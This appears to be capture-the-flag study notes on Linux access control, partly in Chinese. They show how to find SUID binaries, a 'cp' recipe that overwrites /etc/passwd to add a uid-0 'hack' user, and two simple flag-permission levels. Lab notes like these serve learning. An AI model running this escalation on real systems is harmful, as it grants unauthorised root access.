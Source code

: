## access-control
### suid提权
#### 查找suid权限文件
```shell
$ find / -perm -u=s -type f 2>/dev/null
```

#### 常用命令提权方法
##### cp
```shell
$ cat /etc/passwd > passwd
$ openssl passwd -1 -salt z hack # 生成在passwd文件中hack密码对应的加密后口令
$ echo "hack:$1$z$eN1X4Y0BpzcYM5USaVCR.0:0:0::/root:/bin/shell" >> passwd # 生成一个新用户hack，其登录口令为hack
$ cp passwd /etc/passwd
$ su - hack
```

### challenge
In this series of challenges, you will be working with various access control systems.
Break the system to get the flag.

#### level1
> Flag owned by you with different permissions

```shell
In this challenge you will work with different UNIX permissions on the flag.
The flag file will be owned by you and have 400 permissions.

Before:
-r-------- 1 root root 58 Sep  1 07:26 /flag
After:
-r-------- 1 hacker root 58 Sep  1 07:26 /flag

$ cat /flag
```

#### level2
> Flag owned by you with different permissions

```shell
In this challenge you will work with different UNIX permissions on the flag.
The flag file will be owned by root, group as you, and have 040 permissions.

Before:
-r-------- 1 root root 58 Sep  1 07:27 /flag
After:
----r----- 1 root hacker 58 Sep  1 07:27 /flag

$ cat /flag
```
